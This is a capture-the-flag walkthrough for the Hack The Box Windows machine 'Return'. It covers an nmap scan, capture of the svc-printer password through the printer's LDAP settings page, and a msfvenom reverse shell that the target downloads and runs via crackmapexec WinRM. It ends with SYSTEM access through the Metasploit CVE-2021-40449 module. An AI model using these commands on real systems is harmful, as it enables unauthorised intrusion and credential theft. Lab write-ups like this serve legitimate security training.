

# Target
| Category          | Details                                              |
|-------------------|------------------------------------------------------|
| 📝 **Name**       | [Return](https://app.hackthebox.com/machines/Return) |  
| 🏷 **Type**       | HTB Machine                                          |
| 🖥 **OS**         | Windows                                              |
| 🎯 **Difficulty** | Easy                                                 |
| 📁 **Tags**       | LDAP, crackmapexec, Metasploit, CVE-2021-40449       |

# Scan
```
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-09 07:03:54Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-10-09T07:03:58
|_  start_date: N/A
|_clock-skew: 18m34s
```

# Attack path
1. [Gain initial foothold by capturing credentials for `svc-printer` user](#gain-initial-foothold-by-capturing-credentials-for-svc-printer-user)
2. [Escalate to `Administrator` using CVE-2021-40449](#escalate-to-administrator-using-cve-2021-40449)

### Gain initial foothold by capturing credentials for `svc-printer` user

#### Add `return.local` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ echo "$TARGET return.local" | sudo tee -a /etc/hosts
10.129.93.146 return.local
```

#### Discover printer LDAP settings web page under `http://return.local/settings.php`


HTTP request investigation shows that `ip` is the only parameter actually being sent.

#### Start `netcat` on port 389 to listen for LDAP authentication request
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ nc -lvnp 389
listening on [any] 389 ...
```

#### Trigger LDAP authentication request with HTTP POST sending attacker's IP
```
┌──(magicrc㉿perun)-[~/attack/HTB DarkZero]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
curl http://return.local/settings.php -d "ip=$LHOST"
```

#### Captrue `svc-printer` user credentials
```
connect to [10.10.16.17] from (UNKNOWN) [10.129.93.146] 60694
0*`%return\svc-printer�
                       1edFg43012!!
```

#### Generate `windows/x64/meterpreter/reverse_tcp` reverse shell and host it over HTTP
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f exe \
    -o shell.exe && \
python3 -m http.server
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload windows/x64/meterpreter/reverse_tcp; run"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => windows/x64/meterpreter/reverse_tcp
```

#### Spawn reverse shell connection using `crackmapexec winrm`
```
┌──(magicrc㉿perun)-[~/attack/HTB Return]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
crackmapexec winrm return.local -u svc-printer -p '1edFg43012!!' -x "powershell wget http://$LHOST:8000/shell.exe -OutFile C:\Users\svc-printer\Documents\shell.exe; powershell C:\Users\svc-printer\Documents\shell.exe"
SMB         return.local    5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        return.local    5985   PRINTER          [*] http://return.local:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       return.local    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
WINRM       return.local    5985   PRINTER          [+] Executed command
WINRM       return.local    5985   PRINTER
```

#### Confirm foothold gained
```
[*] Sending stage (203846 bytes) to 10.129.93.146
[*] Meterpreter session 1 opened (10.10.16.17:4444 -> 10.129.93.146:60725) at 2025-10-12 11:37:04 +0200

meterpreter > getuid
Server username: RETURN\svc-printer
```

### Escalate to `Administrator` using [CVE-2021-40449](https://nvd.nist.gov/vuln/detail/CVE-2021-40449)

### Run `exploit/windows/local/cve_2021_40449`
Exploit found with `post/multi/recon/local_exploit_suggester`.
```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2021_40449
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2021_40449) > set SESSION 1
SESSION => 1
msf exploit(windows/local/cve_2021_40449) > set LHOST tun0
LHOST => tun0
msf exploit(windows/local/cve_2021_40449) > set LPORT 5555
LPORT => 5555
msf exploit(windows/local/cve_2021_40449) > run
[*] Started reverse TCP handler on 10.10.16.17:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[*] Launching netsh to host the DLL...
[+] Process 1048 launched.
[*] Reflectively injecting the DLL into 1048...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203846 bytes) to 10.129.93.146
[*] Meterpreter session 2 opened (10.10.16.17:5555 -> 10.129.93.146:60732) at 2025-10-12 11:38:41 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
